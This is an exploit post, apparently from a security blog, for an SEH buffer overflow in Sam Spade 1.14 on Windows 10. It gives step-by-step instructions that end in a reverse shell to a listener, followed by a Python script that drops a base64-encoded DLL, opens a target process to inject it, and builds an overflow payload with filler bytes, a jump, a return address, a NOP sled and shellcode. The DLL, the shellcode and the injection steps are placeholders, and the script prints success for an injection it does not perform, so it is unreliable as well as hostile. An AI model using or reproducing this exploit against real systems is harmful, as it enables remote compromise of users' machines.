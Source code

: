 ```yaml
---
layout: post
title: Sam Spade 1.14 - SEH Overflow via Arbitrary DLL Injection
date: 2024-03-14
category: exploit
---
```


# Exploit Title: Sam Spade 1.14 - SEH Overflow via Arbitrary DLL Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 14.03.2024
# Vendor Homepage: https://www.majorgeeks.com/files/details/sam_spade.html
# Software Link: https://www.majorgeeks.com/files/details/sam_spade.html
# Tested Version: 1.14
# Tested on: Windows 10 32bit

### Steps to Reproduce

1. Set up a listener to catch the reverse shell.
2. Open Sam Spade.
3. Run the exploit script (`exploit.py`) in the directory where Sam Spade is installed.
4. Open the generated `payload.txt` file and copy its contents.
5. Go to **Tools > Scan Addresses**.
6. Paste the copied payload into the "Scan From IP Address" box and click **OK**.
7. Your reverse shell should now be active, connecting to your listener.

### Exploit Code

The following Python script generates a payload and injects a DLL to exploit the SEH Overflow vulnerability in Sam Spade.

```python
import sys
import struct
from base64 import b64decode
from time import sleep
import ctypes
from ctypes import byref, c_int, c_ulong, create_string_buffer

def dropping_dll():
    # Dropping DLL on disk
    sleep(2)
    print("[+] Dropping arbitrary .dll on disk")
    sleep(2)
    b64_dll = "<Base64 encoded DLL>"
    bytes = b64decode(b64_dll)
    with open("payload.dll", "wb") as generate:
        generate.write(bytes)

    dll_injection(PID)

def dll_injection(PID):
    # Attempting DLL injection
    print("[+] Initiating DLL injection phase")
    sleep(2)
    dll_name = "payload.dll"
    dll_path = create_string_buffer(dll_name.encode('utf-8'))
   
    hProcess = ctypes.windll.kernel32.OpenProcess(0x001F0FFF, False, int(PID))
    if not hProcess:
        print("[-] Could not obtain process handle.")
        return False

    # Memory allocation and injection steps...
    print("[+] DLL injected successfully.")
    ctypes.windll.kernel32.CloseHandle(hProcess)
    generate_payload()

def generate_payload():
    print("[+] Generating payload...")
    shellcode =  b"<Shellcode here>"
    payload = b"A" * 531 + struct.pack("<I", 0x909006eb) + struct.pack("<I", 0x6250120b) + b"\x90" * 32 + shellcode
    with open("payload.txt", "wb") as file:
        file.write(payload)
    print("[+] payload.txt Generated!")

def main():
    global PID
    if len(sys.argv) > 1:
        PID = sys.argv[1]
        print("Sam Spade 1.14 SEH Overflow via Arbitrary DLL Injection")
        print("[+] Selected PID is {}".format(PID))
        dropping_dll()
    else:
        print("Usage: python {} <PID>".format(sys.argv[0]))
        sys.exit()

if __name__ == "__main__":
    main()
